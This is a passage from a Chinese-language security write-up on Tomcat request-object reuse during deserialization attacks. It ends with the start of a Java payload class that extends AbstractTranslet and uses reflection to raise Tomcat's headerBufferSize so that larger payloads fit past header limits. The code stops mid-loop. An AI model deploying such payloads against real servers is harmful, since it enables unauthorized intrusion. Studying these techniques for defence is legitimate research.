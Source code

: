 跟进到recycle内，直接把applicationRequest置为null，然后getDiscardFacades默认为false，也就是保留facade

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250406221811654.png)

因此下一次请求过来的时候，facede并不为空，直接复用facade，把facade赋值给applicationRequest。

因为每次请求对应的Endpoint都一样，所以每次请求都用的同一个processor，且一个RequestFacade对应一个processor，所以每次请求用的都是同一个RequestFacade。所以即使修改了inputBuffer、outputBuffer也用的原来的请求

**Tomcat 的 `Http11Processor` 是线程池中的复用对象**，多个请求可能会被分配给同一个 `Processor` 实例，尤其是在你快速连续请求、Tomcat 没有太大并发压力时。

对应的办法也很简单：

Tomcat 会为每个连接分配 Processor，从连接池中取或新建。所以**你可以并发发起多个请求**，迫使 Tomcat 创建多个 Processor

copy一手三梦师傅的Tomcat通用回显，遍历所有的processors，找到RequestGroupInfo中存储了RequestInfo的processors，然后修改maxHeaderSize

原理见：https://godownio.github.io/2025/02/26/tomcat-xia-huo-qu-standardcontext-de-fang-fa-jsp-zhuan-java-nei-cun-ma/#Tomcat%E7%9B%B4%E6%8E%A5%E5%86%99Response-2%EF%BC%88Tomcat8-9-10%E9%80%9A%E7%94%A8%EF%BC%89

注意这里payload制作出来已经达到了7800byte，还是在没有业务的情况下

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250407132323697.png)

因为字符限制，我们不能反射获取resources，只能直接getResource，导致8.5.78及以上版本都很难使用

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

@SuppressWarnings("all")
public class TomcatHeaderSize extends AbstractTranslet {

    static {
        try {
            java.lang.reflect.Field contextField = org.apache.catalina.core.StandardContext.class.getDeclaredField("context");
            java.lang.reflect.Field serviceField = org.apache.catalina.core.ApplicationContext.class.getDeclaredField("service");
            java.lang.reflect.Field requestField = org.apache.coyote.RequestInfo.class.getDeclaredField("req");
            java.lang.reflect.Field headerSizeField = org.apache.coyote.http11.Http11InputBuffer.class.getDeclaredField("headerBufferSize");
            java.lang.reflect.Method getHandlerMethod = org.apache.coyote.AbstractProtocol.class.getDeclaredMethod("getHandler",null);
            contextField.setAccessible(true);
            headerSizeField.setAccessible(true);
            serviceField.setAccessible(true);
            requestField.setAccessible(true);
            getHandlerMethod.setAccessible(true);
            org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase =
                    (org.apache.catalina.loader.WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            org.apache.catalina.core.ApplicationContext applicationContext = (org.apache.catalina.core.ApplicationContext) contextField.get(webappClassLoaderBase.getResources().getContext());
            org.apache.catalina.core.StandardService standardService = (org.apache.catalina.core.StandardService) serviceField.get(applicationContext);
            org.apache.catalina.connector.Connector[] connectors = standardService.findConnectors();
            for (int i = 0; i < connectors.length; i++) {
                if (4 == connectors[i].getScheme().length()) {
```
